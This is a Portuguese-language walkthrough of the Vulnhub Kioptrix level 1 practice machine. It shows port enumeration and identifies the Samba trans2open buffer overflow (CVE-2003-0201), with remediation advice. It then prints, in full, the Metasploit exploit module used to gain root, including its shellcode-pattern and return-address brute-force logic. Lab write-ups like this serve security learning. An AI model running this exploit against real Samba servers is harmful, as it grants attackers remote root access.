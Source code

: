 ```yaml
---
title: "Vulnhub Kioptrix level 1"
author: ["Pr3ach3r"]
date: "2023-10-06"
---
```

# Kioptrix level 1 Walkthrough

## Introdução

Esta foi minha primeiríssima máquina que consegui obter o root. O processo foi doloroso, porém, com alguma pesquisa é possível obter root facilmente.
Essa máquina é considerada fácil e o processo é bem linear.
A seguir, resumo o passo a passo para obter o root do sistema:

**IP da empresa**

10.0.2.18

## Enumeração de serviços

Nessa fase fiz uma varredura usando a ferramenta NMAP, muito usada para fazer varreduras de portas. Note que o serviço na porta 139 parece ser o mais vulnerável.

![imagem1](_posts/kioptrix1/kio1.png)


Endereços IP      | Portas Abertas
------------------|----------------------------------------
10.0.2.18         | **TCP**: 22,80,111,139,443,32768


## Exploração

Nessa fase, exploro as falhas de segurança nos serviços vulneráveis. 

**Vulnerabilidade:** Trans2Open Buffer Overflow 

**Explicação:**
O estouro de buffer na função call_trans2open em trans2.c para Samba 2.2.x antes de 2.2.8a, 2.0.10 e versões anteriores de 2.0.x, e Samba-TNG antes de 0.3.2, permite que invasores remotos executem códigos arbitrários.

**Solução:**
Atualizar o serviço SAMBA para as versões mais recentes.

**Risco:** ALTO

**Prova de conceito:**
Código fonte do exploit usado:

```perl
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GreatRanking

  include Msf::Exploit::Remote::SMB::Client
  include Msf::Exploit::Brute

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Samba trans2open Overflow (Linux x86)',
      'Description'    => %q{
          This exploits the buffer overflow found in Samba versions
        2.2.0 to 2.2.8. This particular module is capable of
        exploiting the flaw on x86 Linux systems that do not
        have the noexec stack option set.

        NOTE: Some older versions of RedHat do not seem to be vulnerable
        since they apparently do not allow anonymous access to IPC.
      },
      'Author'         => [ 'hdm', 'jduck' ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          [ 'CVE', '2003-0201' ],
          [ 'OSVDB', '4469' ],
          [ 'BID', '7294' ],
          [ 'URL', 'https://seclists.org/bugtraq/2003/Apr/103' ]
        ],
      'Privileged'     => true,
      'Payload'        =>
        {
          'Space'    => 1024,
          'BadChars' => "\x00",
          'MinNops'  => 512,
          'StackAdjustment' => -3500
        },
      'Platform'       => 'linux',
      'Targets'        =>
        [
          # tested OK - jjd:
          # RedHat 7.2 samba-2.2.1a-4 - 0xbffffafc
          # RedHat 9.0 samba-2.2.7a-7.9.0 - 0xbfffddfc
          [ 'Samba 2.2.x - Bruteforce',
            {
              'PtrToNonZero' => 0xbffffff4, # near the bottom of the stack
              'Offset'       => 1055,
              'Bruteforce'   =>
                {
                  'Start' => { 'Ret' => 0xbffffdfc },
                  'Stop'  => { 'Ret' => 0xbfa00000 },
                  'Step'  => 256
                }
            }
          ],
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => '2003-04-07'
      ))

    register_options(
      [
        Opt::RPORT(139)
      ])

    deregister_options('SMB::ProtocolVersion')
  end

  def brute_exploit(addrs)

    curr_ret = addrs['Ret']
    begin
      print_status("Trying return address 0x%.8x..." %  curr_ret)

      vprint_status('Connect with SMB1 since it needs native_lm info')
      connect(versions: [1])
      smb_login

      if ! @checked_peerlm
        if smb_peer_lm !~ /samba/i
          fail_with(Failure::NoTarget, "This target is not a Samba server (#{smb_peer_lm}")
        end

        if smb_peer_lm =~ /Samba [34]\./i
          fail_with(Failure::NoTarget, "This target is not a vulnerable Samba server (#{smb_peer_lm})")
        end
      end

      @checked_peerlm = true


      # This value *must* be 1988 to allow findrecv shellcode to work
      # XXX: I'm not sure the above comment is true...
      pattern = rand_text_english(1988)

      # See the OSX and Solaris versions of this module for additional
      # information.

      # eip_off = 1071 - RH7.2 compiled with -ggdb instead of -O/-O2
      # (rpmbuild -bp ; edited/reran config.status ; make)
      eip_off = target['Offset']
      ptr_to_non_zero = target['PtrToNonZero']

      # Stuff the shellcode into the request
      pattern[0, payload.encoded.length] = payload.encoded

      # We want test true here, so we overwrite conn with a pointer
      # to something non-zero.
      #
      # 222       if (IS_IPC(conn)) {
      # 223          return(ERROR(ERRSRV,ERRaccess));
      # 224       }
      pattern[eip_off + 4, 4] = [ptr_to_non_zero - 0x30].pack('V')

      # We want to avoid crashing on the following two derefences.
      #
      # 116     int error_packet(char *inbuf,char *outbuf,int error_class,uint32 error_code,int line)
      # 117     {
      # 118       int outsize = set_message(outbuf,0,0,True);
      # 119       int cmd = CVAL(inbuf,smb_com);
      pattern[eip_off + 8, 4] = [ptr_to_non_zero - 0x08].pack('V')
      pattern[eip_off + 12, 4] = [ptr_to_non_zero - 0x24].pack('V')

      # This stream covers the framepointer and the return address
      #pattern[1199, 400] = [curr_ret].pack('N') * 100
      pattern[eip_off, 4] = [curr_ret].pack('V')

      trans =
        "\x00\x04\x08\x20\xff\x53\x4d\x42\x32\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00"+
        "\x64\x00\x00\x00\x00\xd0\x07\x0c\x00\xd0\x07\x0c\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\xd0\x07\x43\x00\x0c\x00\x14\x08\x01"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"+
        "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90"+
        pattern

      # puts "press any key"; $stdin.gets

      sock.put(trans)
      handler

    rescue ::EOFError
    rescue ::Rex::Proto::SMB::Exceptions::LoginError, ::Interrupt, ::RuntimeError
      raise $!
    rescue ::Exception => e
      print_error("#{rhost} #{e}")
    end

    handler
    disconnect

  end
end


```
Na gravura a seguir pode-se ver onde encontrar o modulo no Metasploit Framework

![imagem2](_posts/kioptrix1/kio2.png)

Na gravura a seguir pode-se ver como usar a ferramenta para explorar a falha e obter acesso root logo de primeira.

![imagem3](_posts/kioptrix1/kio3.png)

## Pós exploração

Não foi necessário nenhum passo adicional, visto já obter acesso root já na exploração.

# Considerações finais

Como qualquer coisa na vida, o começo é sempre doloroso, porém com o tempo tudo vai ficando natural e se torna mais fácil. Nessa primeira máquina aprendi a fazer pesquisa no google de uma maneira mais focada nas vulnerabilidades. E também aprendi que é prerigoso deixar um serviço desatualizado rodando no servidor.


